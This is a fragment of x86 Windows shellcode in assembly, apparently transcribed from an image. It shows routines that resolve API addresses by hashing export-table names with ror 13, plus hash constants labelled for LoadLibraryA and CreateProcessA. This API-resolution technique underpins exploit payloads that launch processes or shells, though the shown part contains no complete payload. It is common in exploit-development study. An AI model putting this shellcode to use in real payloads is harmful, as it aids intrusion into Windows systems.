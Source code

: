 ```
    add ebx, ebp
find_function_loop:
    jecxz find_function_finished
    dec ecx
    mov esi, [ebx + ecx * 4]
    add esi, ebp
    
compute_hash:
    xor edi, edi
    xor eax, eax
    cld
compute_hash_again:
    lodsb
    test al, al
    jz compute_hash_finished
    ror edi, 0xd
    add edi, eax
    jmp compute_hash_again
compute_hash_finished:
find_function_compare:
    cmp edi, [esp + 0x28]
    jnz find_function_loop
    mov ebx, [edx + 0x24]
    add ebx, ebp
    mov cx, [ebx + 2 * ecx]
    mov ebx, [edx + 0x1c]
    add ebx, ebp
    mov eax, [ebx + 4 * ecx]
    add eax, ebp
    mov [esp + 0x1c], eax
find_function_finished:
    popad
    ret
    
;END FUNCTION: find_function
;FUNCTION: resolve_symbols_for_dll
resolve_symbols_for_dll:
    lodsd
    push eax
    push edx
    call find_function
    mov [edi], eax
    add esp, 0x08
    add edi, 0x04
    cmp esi, ecx
    jne resolve_symbols_for_dll
resolve_symbols_for_dll_finished:
    ret
;END FUNCTION: resolve_symbols_for_dll
;DEFINE CONSTANTS
    
locate_kernel32_hashes:
    call locate_kernel32_hashes_return
    ;LoadLibraryA
    db 0x8e
    db 0x4e
    db 0x0e
    db 0xec
    ;CreateProcessA
    db 0x72
    db 0xfe
    db 0xb3
    db 0x16
```